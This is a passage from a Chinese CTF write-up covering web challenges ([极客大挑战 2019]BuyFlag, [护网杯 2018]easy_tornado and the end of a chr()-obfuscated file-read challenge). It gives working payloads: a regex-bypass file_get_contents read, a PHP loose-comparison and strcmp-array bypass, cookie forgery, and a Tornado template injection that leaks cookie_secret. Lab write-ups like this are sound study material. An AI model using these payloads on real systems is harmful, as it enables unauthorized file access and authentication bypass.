从结果中可以看出根目录中含有一个可疑对象 f1agg：
尝试打开前一步找出来的 f1agg，使用 file_get_contents(/f1agg) 即可获得文件内容，同样由于正则过滤的问题需要同一使用 chr() 函数替代一下，因此使用如下 payload 即可获得 flag：
1
? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))
[极客大挑战 2019]BuyFlag
打开靶机，发现与之前 [[极客大挑战 2019]Http](#[极客大挑战 2019]Http) 页面几乎一样，不过增加了顶栏并且有菜单，除本页面以外，菜单还有一个链接指向 pay.php 页面，该页面提示只有成信学生可以购买 flag，并且需要正确密码与 100000000 块钱。
虽然得到 flag 的条件说得十分清楚，但是网页并没有提供任何输入的入口，哪怕是付款码也没有，因此只能去源码中寻找一下。所幸，找到了一段注释提示：
1
2
3
4
5
6
7
8
9
10
11<!--
~~~post money and password~~~
if (isset($_POST['password'])) {
$password = $_POST['password'];
if (is_numeric($password)) {
echo "password can't be number</br>";
}elseif ($password == 404) {
echo "Password Right!</br>";
}
}
-->提示说明需要通过 POST 方法传入 money 与 password 两个数据，并且 password 不能为纯数字且值等于 404。
由于依然是弱等于，因此只需让 password 等于 404a 这样的字符串就可以使等号成立，因此只需通过 POST 方法传入以下数据即可：
1
money=100000000&password=404a
不过，传入上述数据后，网页依旧提示只有成信学生可以购买。
所以还需要一些证明我们是成信学生的数据，在调试界面，找到了令人在意的数据，即数据包中含有 Cookies 且值为 user=0，该数据本身便是用来代表用户身份的，因此修改该数据值大概率有效。尝试将值改为 user=1 之后便通过了身份验证，密码也提示正确，不过却提示数字过长，也就是说不允许给这么长一串钱。
长度倒是好说，直接用科学计数法，需要 100000000 那就给 1e8 就行了，但是提交之后竟然说钱不够还羞辱了一顿。
不过多给个 0 他就老老实实交出 flag 了。
本题还有个解法是利用后台比较钱时使用的 strcmp() 函数在接收数组时会出错而返回 0 的漏洞，返回 0 就与相等时的结果一致了，也就通过了验钱这一关。该解法的优秀之处在于可以不用给钱，即通过 POST 提交的数据可以如下：
1
money[]=0&password=404a
[护网杯 2018]easy_tornado
打开靶机，网页内容十分简洁，仅有三个链接指向三个 txt 文本文件。
其各自 URL 与文本内容如下：
1
2
3
4
5
6
7
8
9
10
11URL: http://[靶机地址]/file?filename=/flag.txt&filehash=0b36bbdaea29a745b3f172ce881053f0
/flag.txt
flag in /fllllllllllllag
URL: http://[靶机地址]/file?filename=/welcome.txt&filehash=15e4d9b1223ddb4269d8b481c01cef22
/welcome.txt
render
URL: http://[靶机地址]/file?filename=/hints.txt&filehash=c08db65f382909e9321ea9ebc85aa03a
/hints.txt
md5(cookie_secret+md5(filename))- flag.txt 中提示 flag 位于 fllllllllllllag 文件中。而 welcome.txt 中则仅有提示 render，不过结合题目标题提示 tornado 可以判断本题使用 tornado 模板渲染，render 即该模板中的一个渲染函数。最后的 hints.txt 提示一种 MD5 加密方式，结合三个文件的 URL 中 filehash 变量的 32 位哈希值可推测该值由 hints.txt 中的方式计算得出。此外根据 URL 的格式可以推测 fllllllllllllag 文件的 URL 应该如下：
1 | http://[靶机地址]/file?filename=/fllllllllllllag&filehash=[对应哈希值] |
不用哈希值直接访问该文件，浏览器跳转到了一个错误页面。其中，错误信息通过 msg 变量传递。实测直接修改该值即可让网页显示指定内容，但是含有特殊字符的字符串就会被过滤，仅回显 ORZ。
翻阅 tornado 官方文档发现该模板中的表达式使用 {{ }} 包裹，因此若传递使用 {{ }} 包裹好的数据，则很有可能会被解析执行。实测简单表达式传入，发现可以被正常解析，且花括号并没有被过滤，因此漏洞存在。
要打开 fllllllllllllag 文件就必须要求出哈希值，而哈希值的算法中 filename 已知，因此只需获得 cookie_secret 值即可。继续翻阅 tornado 官方文档发现该值存在于 Application 类中的 settings 属性中 ，链接在这，因此只需获取该值即可。但是我们并没有当前使用的 Application 类的对象可以使用，在官方文档中可以发现 RequestHandler.settings 正好是 Application.settings 的别名，所以能得到一个当前的 RequestHandler 对象也是可以的。
至于当前的 RequestHandler 对象如何获取，官方文档中又有，在 tornado 中就存在当前 RequestHandler 对象的别名 handler，因此获取 handler.settings 即可。

获取该值使用之前的漏洞即可，即将 handler.settings 使用 {{ }} 包裹赋值给 msg 变量，所幸花括号与点号均未被过滤，因此可以直接获取数据。最后一串数据即 cookie_secret。
获取 cookie_secret 值后即可求哈希值了，首先计算 /fllllllllllllag 的 MD5 值，然后在 cookie_secret 后连接上该值并再次求 MD5 值即可。将哈希值放入 URL 对应位置回车即可看到 flag 显示在了浏览器上。
1
http://[靶机地址]/file?filename=/fllllllllllllag&filehash=[对应哈希值]
总结
老老实实刷题以来终于完成了 Web 系列的前 0x10 题，总体来说 Web 还是比隔壁 PWN 要简单一些，字数也减少了近一半。但是即使如此，笔者能独自完成而不依赖题解的题目还是少之又少，脑海中的 Web 相关知识也一直处于又多又杂的状态，好像啥都知道，又啥都不懂。
不得不说，Web 真是越刷越想搞开发去，需要接触那么多有趣的开发框架和开发语言却天天只跟他们的漏洞打交道实在是有些憋屈。